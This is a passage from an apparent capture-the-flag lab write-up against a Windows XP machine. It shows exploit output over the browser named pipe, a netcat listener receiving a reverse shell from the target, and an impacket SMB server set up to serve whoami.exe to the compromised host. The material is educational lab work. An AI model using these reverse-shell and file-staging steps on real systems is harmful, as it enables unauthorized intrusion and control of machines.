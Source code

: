```
#     into this source file.
#######################################################################

Windows XP SP3 English (NX)

[-]Initiating connection
[-]connected to ncacn_np:10.10.10.4[\pipe\browser]
Exploit finish

# Back to Terminal 1 

nc -lvnp 62000
listening on [any] 62000 ...
connect to [10.10.14.42] from (UNKNOWN) [10.10.10.4] 1031
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

And we got shell! For those of you who is wondering how I get the version right, when I did the `initial.scan` earlier, I see `Windows XP` there. So pay attention to scans too! 

## Post Exploitation 

Alright since I got a shell back, the first thing I will check is `whoami` in the system. This will usually tell us if we get as a normal user or administrator. For this machine, we get this back: 

```
C:\WINDOWS\system32>whoami
whoami
'whoami' is not recognized as an internal or external command,
operable program or batch file.
```

Now usually when we run this command on our PC Command Prompt, we will get back a result stating that you are currently as this user but not for this machine. So I will show how to do it. 

First we locate where is our `smbserver.py` and `whoami.exe` in the `kali` system. After locating it, we copy the `whoami.exe` binary to our currenty directory and host the file:

```
# Locating smbserver.py and whoami.exe

locate smbserver.py; locate whoami.exe
/usr/lib/python3/dist-packages/impacket/smbserver.py 
/usr/share/doc/python3-impacket/examples/smbserver.py <-- Use this 
/usr/share/windows-resources/binaries/whoami.exe <-- Copy this to current directory 

# Copy whoami.exe to current directory
cp /usr/share/windows-resources/binaries/whoami.exe . 

# Run smbserver.py on the current directory 
python3 /usr/share/doc/python3-impacket/examples/smbserver.py fspxnky .
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
